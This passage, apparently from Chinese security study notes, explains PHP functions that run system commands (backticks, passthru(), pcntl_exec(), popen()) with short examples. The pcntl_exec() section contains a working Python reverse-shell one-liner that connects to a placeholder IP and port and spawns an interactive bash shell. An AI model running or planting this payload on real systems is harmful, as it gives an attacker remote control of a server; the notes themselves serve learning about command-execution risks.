 ### `（反撇号）

参考：https://www.cnblogs.com/gaohj/p/3267692.html

shell_exec() 函数实际上仅是反撇号 (`) 操作符的变体

```php
<?php 
    echo `whoami`;
?>
# 成功输出whoami结果
```

### passthru()

执行外部程序并且显示原始输出。既然我们已经有执行命令的函数了，那么这个函数我们什么时候会用到呢？

当所执行的Unix命令输出二进制数据，并且需要直接传送到浏览器的时候，需要用此函数来替代`exec()`或`system()`函数

```php
# 代码示例1
<?php
    passthru('whoami');	//直接将结果返回到页面
?>
# 代码示例2
<?php
    passthru('whoami',$result);	//将结果返回到一个变量，然后通过输出变量值得到输出内容
    echo $result;
?>
```

### pcntl_exec()

参考：https://xz.aliyun.com/t/5320

pcntl是linux下的一个扩展，可以支持php的多线程操作。(与python结合反弹shell) pcntl_exec函数的作用是在当前进程空间执行指定程序

版本要求：PHP 4 >= 4.2.0, PHP 5

```php
# 与python结合反弹shell
<?php  pcntl_exec("/usr/bin/python",array('-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("IP",端口));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));?>
```

### popen()

参考：https://bbs.huaweicloud.com/blogs/319207

`popen()`函数可以执行系统命令, 但不会输出执行的结果, 而是返回一个资源类型的变量用来存储系统命令的执行结果, 需要配合fread()函数来读取命令的执行结果

```php
$result = popen( 'ls' , 'r' );
# 参数1:字符串类型,需要执行的命令
# 参数2:字符串类型,模式
# 返回值:资源类型,命令执行的结果
echo fread( $result , 100 );
# 参数1:资源类型,需要读取的文件指针
# 参数2:int类型,读取n个字节
# 返回值:字符串类型,读取的文件内容
```
